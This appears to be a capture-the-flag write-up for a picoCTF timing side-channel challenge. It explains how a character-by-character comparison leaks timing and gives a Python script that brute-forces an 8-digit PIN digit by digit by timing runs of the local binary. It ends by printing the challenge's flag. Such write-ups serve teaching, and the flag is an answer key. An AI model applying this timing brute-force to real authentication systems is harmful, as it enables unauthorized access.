



For this challenge we have a binary listening on a server asking for an 8 digits PIN code. We need to find it in order to get the flag.<br>
A copy of the binary running on the server is given to us, using the same PIN code.



As the challenge is in the category forensic and not reverse engineering, and because the challenge is named "side channel", I guessed it wasn't supposed to be done by reversing the binary. Still, I opened it in IDA just to see how it looks like, and it indeed looked very painful.

A hint also explicitly says reversing won't be helpful.

> Attempting to reverse-engineer or exploit the binary won't help you, you can figure out the PIN just by interacting with it and measuring certain properties about it.

So, the concept of the challenge is to use a timing basd side channel attack to determine the PIN characters.

The concept is that the program will not run the same amount of time depending on our input. That's because if the program is doing a character by character comparison, it will take a different amount of time depending on how much characters are right, because the program will stop the comparison when it finds the first non matching character.

So we can exploit this behavior by bruteforcing one character at a time.<br>
If the first character of our input is equal to the first character of the PIN, the program will run longer than if not. Se we can try a PIN code beginning with every digit and compare their execution time to figure out the one that's longer than the others.<br>
We can the apply the same technique to determine the other characters by bruteforcing them one after the other.

You can find below the script I used for this purpose. I chose to run the program multiple times for each character and take the average of the values in order to get the most precise values and be sure to get the one that is not like the others.

```py
import subprocess
from time import perf_counter_ns

def determine_nth_char_of_pin(known_prefix):
    times = [[], [], [], [], [], [], [], [], [], []]
    
    for i in range(5):
        for i in range(10):
            proc = subprocess.Popen('./pin_checker', stdin = subprocess.PIPE, stdout = subprocess.DEVNULL)
            
            t1 = perf_counter_ns()
            proc.communicate(known_prefix.encode("utf-8") + str(i).encode("utf-8") + b"0" * (8 - (len(known_prefix) + 1)))
            t2 = perf_counter_ns()

            times[i].append(t2 - t1)
            
    for i in range(len(times)):
        times[i] = sum(times[i]) / len(times[i])

    print(f"Average execution times for each digit: {times}")

    i = 0
    n = 0
    for j, m in enumerate(times):
        if m > n:
            n = m
            i = j
    
    return i, n

known = ""
for i in range(8):
    found = str(determine_nth_char_of_pin(known)[0])
    known += found
    print(f"The character {i + 1} is {found}")

print("PIN CODE =", known)
```

Due to the huge amount of processes created and tested, it needed a bit less than 4 minutes on my computer to complete, but it was very satisfying and hyping to see the digits appear one by one.



Once we leaked the PIN code, we can submit it to the online running instance.



And with that, we get our flag: `picoCTF{t1m1ng_4tt4ck_6e11b28e}`